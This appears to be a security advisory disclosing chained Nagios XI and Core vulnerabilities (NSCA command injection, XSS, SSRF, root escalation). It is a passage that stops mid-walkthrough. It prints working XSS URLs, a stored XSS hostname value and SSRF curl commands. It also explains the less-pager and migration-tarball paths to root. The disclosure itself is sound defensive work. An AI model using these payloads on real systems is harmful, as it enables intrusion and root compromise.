


# Overview

Nagios, a network monitoring framework, contains several vulnerabilities
that could be used in combination to allow an attacker to remotely gain
access to a Nagios instance and escalate privileges. The maximum impact
of chaining these vulnerabilities together is code execution as root on
the Nagios server and potential for subsequent lateral movement to
additional endpoints or servers. The vulnerabilities each affect one or
both of Nagios XI and Nagios Core, and GRIMM researchers implemented
demonstration code for simulating attacks on both.

The vulnerabilities fall into one of several categories based on the
part they would play in an attack chain: initial access vectors, web
application payloads, and escalation payloads. Depending on the attack
scenario, multiple vulnerabilities can be chained together and different
parts of the chain could be swapped out interchangeably. However, most
of these vulnerabilities require either initial user interaction or an
existing foothold within a network such as a compromised device being
monitored by Nagios, in which case gaining access to a monitoring server
would yield extensive information about the network and additional
potential for lateral movement within a network that would appear as
expected behavior.

Despite network/service/host monitoring services often being housed in
internal networks and having restrictions to network access, there are
still several expected communications to and from a Nagios instance that
could lead to exploitation. Best practices around network segmentation,
principle of least privilege, and secure configuration reduce (but do
not eliminate) the risk of exploitation by previously unknown
vulnerabilities such as the ones contained in this report.

# Bug identification

## NSCA External Command Injection

-   Vulnerability Type: Command Injection

-   Location: NSCA `src/nsca.c:handle_connection_read()`

-   Affected Versions: All versions of NSCA from at least 1.2 (2001) to
    2.10.1 (latest)

-   Fixed Version: NSCA version 2.10.1

-   Impact: Clients can send arbitrary “external commands,” leading to
    misleading or incorrect data and allowing selective enabling and
    disabling of host/service checks

NSCA (Nagios Service Check Acceptor) is a plugin for Nagios XI and
Nagios Core that does just what the name implies: it accepts data from
checks that are performed on the remote client, where “checks” gather
information about a specified host or service (“check data”). NSCA is a
client/server architecture with an agent that runs on the client
machine, and is a standalone codebase separate from Nagios XI and Nagios
core. NSCA is installed by default in Nagios XI, but the default
configuration is the same regardless of Nagios deployment, with a
default network policy to restrict network access to the NSCA port to
just machines that have NSCA agents. The trust relationship between
client and server is that only machines with agents should have access
to the shared encryption key and encryption scheme via their
configuration files, so any agent that can reach the network port and
knows the encryption key should be trusted.

This shared-key encryption is the extent of trust for client data; NSCA
performs almost no sanity-checking on incoming client messages. The only
post-decryption filtering on incoming messages performed is to ensure
that the host matches a host that Nagios is monitoring, or the
service-and-host pair exist if the message relates to a service. Since
the purported origin of the message is not verified against the sender,
any agent can send a report claiming to be from any host, which allows
status spoofing.

Further, because the server-side processing of agent messages in
`handle_connection_read()` does not check the contents of the responses
before writing to the command file (nagios.cmd), attackers can violate
Nagios’ assumption that the command file contains well-formatted,
newline-terminated external commands. This allows any agent to inject
arbitrary external commands, which can be used to cause a number of
minor actions to happen such as sending notifications, selectively
enabling/disabling host checks, etc. By itself this may not be a major
issue, but in combination with other issues it is used to inject
attacker-controlled data, making Cross-Site Scripting (XSS) attacks
possible.

## NRDP Insufficient Sanitization on External Commands from Clients

-   Vulnerability Type: Insufficient Sanitization

-   Location: NRDP `nrdp/server/config.inc.php:140`

-   Affected Versions: NRDP 1.3.1 (Oct 2013) to 2.0.4 (latest)

-   Impact: Clients can send arbitrary “external commands” with
    unchecked contents that can lead to XSS or other effects.

The contents of NRDP messages go through minimal sanitization, which
allows attackers able to send these messages to supply misleading
information about other hosts or services, selectively disable host
checks, and enable XSS attack vectors. NRDP is Nagios’s preferred
Application Programming Interface (API) for agents and applications to
submit check response data to be ingested, but it also accepts arbitrary
external commands by default. This is made possible by an option in the
default NRDP server configuration file
(`$cfg["disable_external_commands"] = false;`). Via NRDP, clients are
able to send any external command with arbitrary contents. These
external commands are accepted with minimal sanity-checking; for
example, host-related commands are accepted as long as the host in
question is actually monitored by Nagios, but the origin of the message
is not checked against the data.

During the disclosure process, Nagios responded that they do not
consider this a vulnerability, since external commands can be disabled
by a system administrator. GRIMM’s perspective is that since Nagios by
default exposes all external commands to be used by a client, all
default installations of Nagios are vulnerable to the external command
XSS bugs described below. If external commands were disabled by default,
than those XSS bugs would only affect Nagios servers in environments in
which the vulnerable external commands were explicitly allowed by
administrators. We suspect that the number of vulnerable servers in the
latter case would be much lower than in the case of the former.

## NCPA Configuration Wizard XSS

-   Vulnerability Type: XSS

-   Location:
    `nagiosxi/html/includes/configwizards/linux-server/linux-server.inc.php:720`
    and `nagiosxi/html/includes/configwizards/ncpa/ncpa.inc.php:723`

-   Affected Versions: Nagios XI 5.7.0 (June 2020) to 5.8.6 (latest)

-   Fixed Version: Fixed in NCPA configuration wizard version 3.0.10

-   Impact: XSS in the context of any user that views the affected pages

During particular configuration wizard pages related to configuring
Linux NCPA agents, data is retrieved from the agent’s Secure Hypertext
Transfer Protocol (HTTPS) endpoints and some fields are rendered
unsanitized in the configuration wizard page, which can result in XSS if
an attacker compromises the client and alters the response.

This is only applicable when the configuration wizard runs, normally the
data returned from the agent is either sanitized or presented in numeric
form. If an attacker can compromise a machine running an NCPA agent and
gain privileged access, they could alter the agent to respond with a
malicious string. The attackers might lure an administrator to attempt
to reconfigure an agent by returning parameters that seem erroneous,
which might lead the administrator to attempt to reconfigure the agent.

In the Nagios Web UI there are three ways to reach the vulnerable config
wizards:

1.  Configure -\> Configuration Wizards -\> “Linux Server” from choices

2.  Configure -\> Configuration Wizards -\> “NCPA” from choices

3.  Configure -\> Auto Deployment -\> Manage Deployed Agents -\> “Run
    Wizard” button (wand icon)

## External Command XSS

-   Vulnerability Type: XSS

-   Location: Nagios XI:
    `nagiosxi/html/includes/components/xicore/ajaxhelpers-hoststatus.inc.php:xicore_ajax_get_host_comments_html:1032`;
    Nagios Core: `cgi/extinfo.c:show_all_comments:1834`

-   Affected Versions: All known released version of Nagios XI and
    Nagios Core to latest

-   Fixed Version: Fixed in Nagios XI version 5.8.7

-   Impact: XSS in the context of any user that views the affected pages

Three external commands Nagios commands have some of their message
contents rendered directly to Hypertext Markup Language (HTML) without
sanitization, allowing an attacker capable of sending these commands to
execute code in the context of a user that views the affected page(s).
These commands are ADD_HOST_COMMENT, ADD_SERVICE_COMMENT, and
ACKNOWLEDGE_HOST_PROBLEM. In the case of ADD_HOST_COMMENT, the
vulnerable field is “comment_data”.

Using ADD_HOST_COMMENT as an example, if the attacker specificies the
host “localhost”, then any user who visits the host detail page for
“localhost” will receive the XSS payload in the “comment_data” field,
which results in the payload being run in their browser. Normally this
would be a less serious vulnerability, but in the context of the other
vulnerabilities in this report it becomes a useful building block in a
very plausible attack chain.

## Reflected XSS on SSH Terminal Page

-   Vulnerability Type: XSS

-   Location: `nagiosxi/html/admin/sshterm.php:158`

-   Affected Versions: Nagios XI from at least 5.5.0 (June 2018) to
    5.8.6 (latest)

-   Fixed Version: Fixed in Nagios XI version 5.8.7

-   Impact: XSS in the context of any user that can be induced to follow
    a malicious link

The ‘url’ query string parameter exposed by the `sshterm.php` endpoint
is rendered into an iframe tag without proper sanitization or encoding,
which allows for the execution of attacker-supplied JavaScript. There is
some processing to ensure the value starts with `https://`, preventing
the use of JavaScript or a data Uniform Resource Identifier (URI).
However, quotation marks are not properly sanitized, Uniform Resource
Locator (URL) encoded, or encoded to HTML entities. This allows the
creation of arbitrary attributes within the rendered iframe tag. Adding
an event handler such as ‘onload’, or a ‘srcdoc’ attribute with a
‘\<script\>’ tag (with \< and \> encoded as HTML entities) allows for
the execution of arbitrary JavaScript. For example:

`https://nagios.corp.lan/nagiosxi/admin/sshterm.php?url=https://nagios.corp.lan/nagiosxi/terminal%3F%22%20onload=%22alert('XSS')`

`https://nagios.corp.lan/nagiosxi/admin/sshterm.php?url=%3F%22%20srcdoc%3D%22%26lt;script%26gt;alert(%27XSS%27)%26lt;/script%26gt;`

The XSS payload will also persist through the login redirect. So should
an administrator not be logged into the Nagios XI instance at the time
the malicious link is followed, they will be redirected to the login
page. After login, they will be redirected back to the original
`sshterm.php` page with the payload still intact.

## Reflected XSS on Main Account Page

-   Vulnerability Type: XSS

-   Location: `/nagiosxi/html/account/main.php:154`

-   Affected Versions: Nagios XI from at least 5.3.0 (Oct 2016) to 5.8.6
    (latest)

-   Fixed Version: Fixed in Nagios XI version 5.8.7

-   Impact: XSS in the context of any user that can be induced to follow
    a malicious link

The ‘api_key’ query string parameter is rendered into an input tag with
minimal sanitization, allowing attackers to craft malicious links that,
when followed, trigger arbitrary JavaScript execution. Quotation marks
are not removed or encoded to HTML entities, allowing the insertion of
arbitrary attributes into the input tag. Adding an event handler such as
‘onfocus’, along with an ‘autofocus’ attribute allows the automatic
execution of arbitrary JavaScript. For example:

`http://nagios.corp.lan/nagiosxi/account/main.php?api_key=jHlWcO3kMR62YelZqtlHSXiKajp%22%20autofocus%20onfocus%3d%22if%20(!window.abc)%20{%20window.abc%20=%20true;%20alert(%27XSS%27)%20}`

The XSS payload will also persist through the login redirect. So should
a user not be logged into the Nagios XI instance at the time the
malicious link is followed, they will be redirected to the login page.
Then after login, will be redirected back to the original `main.php`
page with the payload still intact.

## Stored XSS on Hostname Field When Configuring Outbound Audit Log Messages

-   Vulnerability Type: XSS

-   Location: `/nagiosxi/html/admin/auditlog.php:292`

-   Affected Versions: Nagios XI from at least 5.7.0 (June 2020) to
    5.8.6 (latest)

-   Fixed Version: Fixed in Nagios XI 5.8.7

-   Impact: One administrator gains XSS in the context of any other
    administrator who visits the auditlog configuration view

The outbound audit log hostname value is not properly sanitized when
saved or escaped when rendered, allowing attackers to store arbitrary
JavaScript that is executed when the auditlog configuration view is
rendered. Quotation marks are not removed when the hostname value is
stored, or encoded to HTML entities when rendered into the input tag.
This allows saving a hostname that when subsequently rendered on the
configuration page, allows the insertion of arbitrary attributes into
the input tag. Adding an event handler such as ‘onanimationstart’, along
with a style attribute that references an existing animation name allows
the automatic execution of arbitrary JavaScript.

For example, saving the following value as the hostname will result in
the payload running on subsequent visits to the audit log configuration
page (see Listing
<a href="#lst:admin_xss_payload" data-reference-type="ref" data-reference="lst:admin_xss_payload">[lst:admin_xss_payload]</a>).

```
nagios-audit-out.corp.lan" style="animation: twirl 0s;" onanimationstart="alert('XSS')
```

Triggering this vulnerability requires administrator privileges. While
administrators already have elevated privileges, this vulnerability
could be abused in situations with multiple administrators to steal
passwords or impersonate other admins. Alternatively, this method could
be used to bypass event logging that may indicate compromise (i.e.
logging one administrator resetting the password of another
administrator).

## www-data/apache User has Write Permissions on Web Directories and Files

-   Vulnerability Type: Security Misconfiguration

-   Location: `nagiosxi/html/sounds/` and
    `nagiosxi/html/includes/components/highcharts/exporting-server/temp`

-   Affected Versions: Nagios XI from at least 5.7.0 (June 2020) to
    5.8.6 (latest)

-   Fixed Version: Nagios XI version 5.8.7

-   Impact: A user capable of executing commands under the www-data
    (such as in a reverse shell) can setup persistence via web shells

Two directories served by the Nagios XI apache server are writable by
the www-data user, one of which is configured to allow execution of PHP,
and the other can be enabled to allow execution of PHP. Should an
attacker gain a reverse shell running under the www-data user, the
configuration allows the execution of arbitrary PHP scripts by the web
server. This allows attackers to serve arbitrary content such as a web
shell, service worker, or other content that could be used to trick
users because it’s hosted on a trusted server. The
`/usr/local/nagiosxi/html/sounds/` directory is writable by the www-data
user, as well as the .htaccess file located in the directory. The
contents of the .htaccess file disable execution of PHP with a line that
reads “php_flag engine off.” Enabling execution is as easy as modifying
the line to “php_flag engine on.” The
`/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp`
directory is also writeable, and allows execution of PHP without any
additional configuration or changes.

## Server Side Request Forgery via the Hyper-V Config Wizard

-   Vulnerability Type: Server Side Request Forgery (SSRF)

-   Location:
    `nagiosxi/html/includes/configwizards/hyperv/hyperv-ajax.php:34`

-   Affected Versions: Nagios XI from at least 5.6.0 (Apr 2019) to 5.8.6
    (latest)

-   Fixed Version: Fixed in Nagios XI version 5.8.7 and version 1.0.2 of
    the config wizard

-   Impact: SSRF could be utilized to scan or retrieve content from
    localhost or a network segment that is otherwise inaccessible. It
    could also be used to scan or retrieve content from an accessible
    network segment without raising as much suspicion since the requests
    are coming from a trusted address.

The ‘hyperv-ajax.php’ file does not adequately sanitize or restrict the
‘ip_address’ query string parameter, which ultimately allows an attacker
to to scan or retrieve content from localhost or a network segment that
is otherwise inaccessible. While the shell argument is escaped before
interpolation into the command line that calls curl, there are no
restrictions on the ip_address value so it can be used to make requests
to any host and port combination or URL path. The string that the
address is interpolated to includes the port and a long path, but it can
all be excluded by ending the IP address value with a question mark,
resulting in the remainder of the string being interpreted as a query
string by the server that receives the request.

For example, the first curl request shown below results in the server
making an outbound call that is equivalent to the second curl request.
Since the request is made by the server, attackers can use this to reach
internal resources that they otherwise would not be able to reach, and
can glean information about the IP and port combination based on whether
data is returned and the timing of the response.

```
curl -G https://nagios.corp.lan/nagiosxi/includes/configwizards/hyperv/hyperv-ajax.php --data-urlencode 'ip_address=127.0.0.1:8443/?' -k -H 'cookie: nagiosxi=9m8f9hjle8siptu1v73k50edrb'

curl 'https://127.0.0.1:8443/?:0/api/windowscounters/()/?token=&sleep=1&factor=0' -g -f -k --connect-timeout 10
```

## Privilege Escalation via Service Management Script

-   Vulnerability Type: Security Misconfiguration

-   Location: `nagiosxi/scripts/manage_services.sh`

-   Affected Versions: Nagios XI versions from at least 5r1.0 (Sep 2015)
    to 5.8.6 (latest) installed on systems with versions of systemctl
    that use the system pager (present on CentOS 8 and Ubuntu 18.04 and
    20.04)

-   Fixed Version: Fixed in Nagios XI version 5.8.7

-   Impact: Interactive users can run commands as root

The www-data/apache user is allowed to run the manage_services.sh script
via sudo without a password, which can lead to privilege escalation to
root on some host platforms. This script invokes systemctl (without the
–no-pager option), and later versions of systemctl spawn less and pipe
the status output into it by default. Less allows the execution of
arbitrary shell commands, so it’s possible to spawn a shell as root from
within it. On systems with newer versions of systemctl, executing the
vulnerable script with ‘sudo
/usr/local/nagiosxi/scripts/manage_services.sh status nagios’, results
in a call to ‘systemctl status nagios’, which invokes ‘less’ as the
pager for the output. Once ‘less’ has been spawned, shell commands can
be run by prepending them with an exclamation point.

## Unbundling process during server migration runs attacker-supplied scripts as root

-   Vulnerability Type: Logic Bug

-   Location: run_migration_ansible() in
    `nagiosxi/scripts/migrate/migrate.php`

-   Affected Versions: Nagios XI 5.8.0 (January 2021) to 5.8.6 (latest)

-   Fixed Version: Fixed in Nagios XI version 5.8.7

-   Impact: Remote Code Execution (RCE) as root on the machine hosting
    the Nagios server

The migrate server functionality exists to ease the transfer of
configuration from one Nagios instance to another, and while the action
requires knowing the IP address and credentials to the specified server,
the migration process can result in executing arbitrary code as root if
an attacker specifies a server they control.

The migration process is triggered via a form request on the endpoint
`nagiosxi/admin/migrate.php`, but the real action takes place in the
command subsystem, which invokes the migrate.php file (this one in the
`scripts/migrate/` directory) with sudo and performs the actual
migration process. This process uses an Ansible playbook to upload and
execute a “bundler” script to the specified server, then download the
results. However, because the attacker controls the server, there are
several ways they can sabotage the bundler script so that the attacker
fully controls the contents of the bundle archive that is downloaded. In
our example code, we pre-stage a file that matches the glob pattern the
playbook looks for and then replace the gzip binary on our server, which
causes the last step in the bundling script to leave the bundle with a
“.tar” extension instead of “.tar.gz” and our file to be downloaded to
the Nagios server.

Once the Ansible playbook runs and the malicious tarball is downloaded,
the migrate script creates a temporary directory for the unbundling. It
first copies the unbundling script to this directory, then extracts the
malicious tarball, then executes the unbundling script (as root). Since
the extraction takes place after the copy, a crafted tarball can
overwrite the unbundling script with a script of the same name which
will be executed as root. This provides attackers a way to escalate from
administrative control on the web application to full root access on the
Nagios server.

# Technical analysis

In order to discuss the variety of vulnerabilities disclosed, it helps
to have a concept of a Nagios deployment and its intended communication
channels. Nagios is intended to be deployed to a server and is assumed
to be on an internal network or network segment. As a result of this,
directly communicating with the Nagios instance is limited to expected
hosts or subnets. The two general categories of these communications are
agent/service check-related communications and the administrator or
authorized users viewing and configuring the instance. The life cycle of
an attack on Nagios will start by gaining access via an expected
communication channel, potentially leveraging the web application to
activate additional payloads or gain execution in a more-privileged
context, and finally establishing either native code or system command
execution as root. Based on the vulerabilities discovered, there are
multiple avenues for an attacker to pursue at each phase in the attack
chain described above, so we will discuss each of the phases and then
give an example scenario for an end-to-end attack.

<figure>
<figcaption aria-hidden="true">High-Level Nagios Architecture Diagram</figcaption>
</figure>

An important distinction to make is that there are two common versions
of Nagios, an open-source version (Nagios Core) and a paid version
(Nagios XI) that was forked from the open-source version. The most
noticeable difference in Nagios XI is the redesigned frontend and
database, as well as the fact that Nagios XI is packaged as more
“batteries included,” with several common plugins pre-installed. Despite
these differences, they are very similar so some of the vulnerabilities
affect both, though clearly not bugs in the new web frontend pages and
extra features specific to Nagios XI. The Bug Identification section
describes which version of Nagios each vulnerability applies to, but in
general we will be discussing Nagios XI unless otherwise noted.

## Initial Access

The first type of communication we investigated is the communications
between Nagios and its agents or remote systems. This type of
communication can be further split into two categories: those initiated
by Nagios and those initiated by the remote end. Nagios documentation
calls these “active” and “passive” checks, but for clarity we will refer
to Nagios as the “server” in the context of this discussion and the
remote machine will be the “client” even though it may be something like
an email or web server itself. Nagios supports both directions of
communication because as a network scales up it may be easier for
clients to report in without having to be asked by the server, but in
order to support these client-initiated communications Nagios will have
firewall and network exceptions to allow clients to connect to open
network ports. There are a few different agent types that Nagios still
supports, including NCPA, NRPE, and NSCA, but we’ll start with an
examination of NSCA (Nagios Service Check Acceptor).

NSCA is a Linux/Unix agent for Nagios written in C, and it is designed
to allow checks to be initiated from either the client or server-side.
The communications are protected by matching client-server configuration
of the encryption scheme and password, and in Nagios XI’s default
configuration each client needs to be added to the xinetd configuration
to be allowed to communicate with the server. These are all good
protections, but it means that any client machine can send unsolicited
messages to the server, so any compromised client can act as a launching
point for an attack on the Nagios server. The use of encryption also
does not address the contents of those messages, which ends up being an
issue. The NSCA protocol defines messages to be tab-delimited and
terminated by a newline, but the server-side processing of
client-initiated messages does not properly parse newlines contained in
incoming messages. As a result, messages containing newlines can inject
“external commands” (a Nagios-specific term that we will explain below)
to achieve unintended effects. The server-side processing also fails to
check that the origin of the message matches the reported host or
service, as long as the message refers to a host or service matches
something that Nagios is actually monitoring, such as the compromised
client or the Nagios server itself (which is automatically monitored
under the hostname ‘localhost’ in default configurations).

[External
commands](https://assets.nagios.com/downloads/nagioscore/docs/externalcmds/index.php)
refer to a specific set of commands that are intended to allow a safe
set of minor configuration changes and messaging capabilities. Normally
messages from NSCA (or NSClient++) clients are processed by writing the
message to a file which processes these external commands, with an
external command type of PROCESS_HOST_CHECK_RESULT or
PROCESS_SERVICE_CHECK_RESULT. This type of external command will be
processed and the contents will be stored for later display by the web
application. Since NSCA messages can inject arbitrary external commands,
attackers can use any external commands that are not specifically
disabled. This allows them to change some configuration parameters,
inject notifications, or selectively disable and enable checking for
specific hosts or services. Being able to inject attacker-controlled
data enables certain attack vectors which can be leveraged for privilege
escalation as we will see. Attackers can also use external commands to
make it appear that key services or hosts are experiencing intermittent
outages and draw the attention of admins to particular pages, which is a
very useful primitive in the context of a web application. So far we
have discussed how a mistake in the handling of NSCA messages could lead
to a compromised client machine being able to send arbitrary external
commands to the Nagios server, but while it still appears to be in use
and is part of the default Nagios XI install, NSCA has been superseded
by a newer type of agent.

NCPA, the Nagios Cross-Platform Agent, is the most recent Nagios agent,
written in Python and supporting multiple operating systems and both
server- and client-initiated host/service checks. Similar to NSCA, NCPA
uses a pre-shared secret between the client and server, but it uses a
different secret for each side, so the administrator must place a token
in the configuration file on the client machine in order for the client
to initiate communications with the server. This token is for an
interface called NRDP (Nagios Remote Data Processor), which uses
Hypertext Transfer Protocol (HTTP) or HTTPS and is the intended
interface for newer agents and other applications to send information to
the server. Attackers could gain access to the token either from a
compromised client or by capturing traffic from an agent or application
that is configured to use HTTP (which the example comment in the default
configuration file demonstrates), where the token would be sent in
plaintext. Once an attacker gains this token they can then communicate
with the NRDP API, which is a very flexible API because it allows any
client to specify arbitrary external commands that the server will
process. So by design, any compromised NCPA agent configured for
client-initiated (“passive”) checks can execute arbitrary external
commands.

But even if no such client-initiated agent communication is configured,
there is at least one way for a client to attack the server. It seems
that Nagios expected that responses from rogue agents was an attack
vector and they designed a system setting that is designed to prevent
NCPA agents from sending responses that would end up rendering as
JavaScript (which would result in XSS). The setting is “Allow HTML Tags
in Host/Service Status.” It is disabled by default, but if an admin
enables it, a compromised NCPA agent could send responses that would
lead to XSS on some of the most common overview pages. However, even if
that setting is left disabled, there are a few places where a rogue NCPA
agent could send crafted responses that can lead to XSS, particularly in
the NCPA configuration wizard pages. So an attacker could modify an NCPA
agent to report a strange service response in an attempt to have the
admin redeploy or reconfigure an agent, and if they do, the agent
returns a specially crafted message regarding the percentage memory
utilization. When the server renders the current memory load on the
wizard pages (which occurs in the “Linux Server” and “NCPA” wizards that
contain copies of the same vulnerable code) the PHP code inserts the
string from the rogue agent directly into the HTML response, leading to
XSS.

So at this point we’ve demonstrated vulnerabilities in both client- and
server-initiated communications, but it’s also possible to run Nagios
without using any agents, in which case attackers would have to focus on
the one method of ingress that will always be open: the administrator.
While they do require user interaction, a single click from a logged-in
administrator is enough to deliver an XSS payload with one of the
reflected XSS vulnerabilities. Or if an attacker is able to compromise
an admin account on the Nagios web application, they can use a stored
XSS vulnerability to execute JavaScript in the context of a different
admin if they can get them to view the audit log page, which might be
useful for covering their tracks.

## Web Application Payloads

We’ve now established that attackers have multiple avenues to either
execute external commands (to generate disruption directly or to store
data) or directly execute XSS, depending on the configuration of the
target network. In the case where attackers can execute external
commands on the Nagios server, it appears that there was an oversight on
what values needed to be sanitized, because some of the external
commands that store messages from web application users are later
rendered by the frontend PHP code directly, without any sanitization.
This leads to XSS opportunities on different pages depending on the type
of external command, such as ADD_HOST_COMMENT storing messages that will
be displayed on the host detail page for that particular host. With that
part of the chain complete, the next part of the attack scenario is to
use an XSS payload to gain more privileged or more persistent access to
the Nagios instance. The discussion that follows assumes that the
attacker was able to draw a user with admin privileges in the web
application to a page where the attacker has staged the payload via one
of the initial access vulnerabilities.

<figure>
<figcaption aria-hidden="true">Visible comment from ADD_HOST_COMMENT with hidden XSS payload</figcaption>
</figure>

The simplest payloads are those that allow an attacker to act as a web
application administrator directly. While Nagios XI sets the ‘httponly’
attribute on the session cookie, Nagios Core does not, which allows an
attacker to exfiltrate the cookie directly and act as the administrator
(presuming they can access the Nagios instance). But with the additional
features of Nagios XI’s web application, attackers gain greater
possibilities with XSS payloads, and on Nagios XI an administrator user
can be added via XSS so the attacker can come back and directly
administer the server or execute any of the other payloads.

In addition to adding users, XSS payloads allow attackers to exercise
much of the functionality of the web application, including uploading
plugins, which can be either shell scripts or native files. In the case
of shell scripts, there are several available targets for an attacker to
place a web shell so they can take more persistent access. Attackers can
also cause the web application to directly execute the shell scripts to
spawn themselves a connect-back shell so they can execute further
commands or use the `manage_services.sh` privilege escalation detailed
below. Without further mitigations, any XSS attack that succeeds against
the admin user is likely to lead to attacker control of the Nagios
system.

## Privilege Escalation

Normally Nagios is structured in such a way so that the administrator of
the web application does not necessarily have privileged access to the
server (in some cases such separation of privileges may even be
desired), but because Nagios is so tightly intertwined with
administration and elevated privileges, we identified two separate
vulnerabilities that would allow an attacker to gain execution as root
on the Nagios server itself.

The first vulnerability uses the “migrate server” functionality, which
is designed to ease the process of importing the configuration of an
existing server to a new server. Since this process inherently trusts
the server from which it imports its configuration, it executes some
scripts as root in the process. This opens the door for an attacker, who
can later abuse this functionality via XSS to download a malicious
package from a server they control and exploit some of the assumptions
in the "migrate server" process. As a result, attackers can translate
executing XSS as admin into executing a script they supply as root.

The second vulnerability leverages a vulnerable script that is specified
in the sudoers file as one the web application user can execute as root,
`manage_services.sh`. While the shell script attempts to check the
arguments, by leveraging an interactive shell (described in the Bug
Identification section), attackers can use a feature of systemctl on
certain systems that causes the system pager (usually `less`) to be
invoked, which gives an interactive attacker the ability to run commands
as root while the pager is displaying text.

In both cases, the attackers are able to leverage XSS to gain execution
as root on the Nagios server. From there, they have full access to any
information saved on the server and can cover their tracks from the
initial exploitation as well as for future activity on the network.
While Nagios agents are designed to limit the ability for the Nagios
server to execute arbitrary commands on client machines, there is either
explicit or implicit trust of the Nagios server, and multiple
administrative actions involve entering passwords or saving keys to
other machines on the Nagios server itself.

## Example End-to-End Attack: NSCA

We’ll now break down an end-to-end attack to illustrate an attack
scenario step-by-step, using the NSCA access method since it is perhaps
the most complex and because the NCPA vulnerabilities basically use a
subset of the same codepaths. To aid in reproduction, the exploitation
process described in this section has been broken down into individual
steps in Listing
<a href="#lst:nsca_demo" data-reference-type="ref" data-reference="lst:nsca_demo">[lst:nsca_demo]</a>.

The first step for an attacker is compromising a client machine running
NSCA, which we take as an assumption for this discussion. On the client
machine the attacker finds the NSCA configuration file (accessing this
file may or may not require escalated privileges, depending on
configuration) and the `send_nsca` binary, which are all that an
attacker requires in order to communicate with the Nagios server. The
included script `nsca_xss/xi_nsca_xss.py` generates a payload which
essentially has three layers, an NSCA message, an injected external
command of type ADD_HOST_COMMENT, and an XSS payload that will be
triggered by an admin visiting the targeted host’s page. We’ll choose
the migrate server payload, again because of it’s complexity.

Since the final stage of the attack is the “migrate server” action,
which will Secure Shell (SSH) into a server we control, we’ll set that
up first. The included Dockerfile (`migrate/Dockerfile`) includes a
hard-coded username and password, puts all of the required files in
place, and listens on port 22 for any incoming connections. This can be
done by running scripts on an existing server with SSH, or more portably
by using the included Docker image. Invoking
`migrate/run_in_dockerfile.sh` will build a container with all the files
expected in the proper places, expose the container’s listening SSH
server on port 22 of the host, and write out a file on the host
containing a JavaScript XSS payload. This Javascript payload can then be
delivered to the server via any XSS vector to cause the server to
initiate the migrate action with the newly-provisioned docker container
as the target. The only argument to the script is the
externally-reachable IP of the machine being used as the migration
target, which is written into the XSS payload along with credentials to
the container since these are required parameters to the POST request
that will actually kick off the migration.

Now that we have our “migrate server” SSH target waiting and an XSS
payload in a file, we must make sure the server configuration matches
that of a server with NSCA clients. In order to configure a new NSCA
agent on a default Nagios XI install, we have to ensure that both the
server and client configuration files (`/usr/local/nagios/etc/nsca.cfg`
on the server and `send_nsca.cfg` in the same directory as the script on
the test machine) specify the same password and encryption scheme. We
must also add that client IP or subnet in another “only_from” line in
the server’s xinetd configuration for nsca `/etc/xinetd.d/nsca` and then
restart xinetd to apply the change.

Once the server is configured to recognize our client, we can invoke the
`nsca_xss/xi_nsca_xss.py` script with the XSS payload file and the
Nagios server as the target. The script uses the `send_nsca` binary to
send a message to the server using the encryption key and scheme from
the config file. The message is received by the NSCA listener on the
server, which will write the message as part of a format string to the
command file `nagios.cmd`. A Nagios worker will then read the file and
interpret the commands as two separate external commands due to the
newline we insert in the message, one of the type  
PROCESS_HOST_CHECK_RESULT (the correct type) and one of
ADD_HOST_COMMENT. The  
ADD_HOST_COMMENT command stores a comment that will be rendered when an
admin goes to the host detail page for the targeted host. In order to
show how an attacker can lure admins with false alerts, we choose
‘localhost’ (the Nagios server) as the target for both commands, and we
choose to use our PROCESS_HOST_CHECK_RESULT command to report that
‘localhost’ is down. At this point, the trap is set and the attacker
must wait for an admin user to log in and take the bait.

<figure>
<figcaption aria-hidden="true">Flow of execution from NSCA message to XSS</figcaption>
</figure>

Nagios XI’s default frontend settings make it hard for an admin to
ignore when a host goes down, so when they do access the page for
‘localhost’ to see what went wrong, the rest of the attack will run.
First, the PHP page for host details lacks proper sanitization, so it
inserts the crafted comment directly into the HTML, which will run a
JavaScript payload in the admin user’s browser. This payload will send a
POST request to the migrate server endpoint with parameters that cause
